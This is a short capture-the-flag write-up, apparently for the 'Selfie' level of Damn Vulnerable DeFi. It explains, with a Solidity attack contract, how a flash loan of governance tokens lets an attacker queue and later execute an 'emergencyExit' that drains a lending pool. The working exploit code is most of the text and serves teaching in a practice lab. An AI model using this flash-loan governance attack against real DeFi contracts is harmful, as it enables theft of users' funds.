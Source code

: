 ## Selfie solution

There are 1.5 million tokens in pool which we need to take. The governance mechanism is used by the same tokens, so it is easy to manipulate it. First, we need to take out a flashloan. During it, we execute `queueAction` with `data` parameter that has a signature of `emergencyExit` function. We repay the flashloan and wait for 2 day delay to execute our action. After 2 days, we call the `executeAction` with our actionId. Since in that case msg.sender is `SimpleGovernance`, we bypass the `onlyGovernance` modifier on `emergencyExit`, succesfully getting the tokens.

```
    function attack() public {
        bytes memory data = abi.encodeWithSignature(
            "emergencyExit(address)",
            address(attacker)
        );
        pool.flashLoan(
            this,
            address(govToken),
            govToken.balanceOf(address(pool)),
            data
        );
    }

    function onFlashLoan(
        address,
        address token,
        uint256 amount,
        uint256,
        bytes calldata data
    ) external returns (bytes32) {
        DamnValuableTokenSnapshot(token).snapshot();
        gov.queueAction(address(pool), 0, data);
        DamnValuableTokenSnapshot(token).approve(address(pool), amount);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
```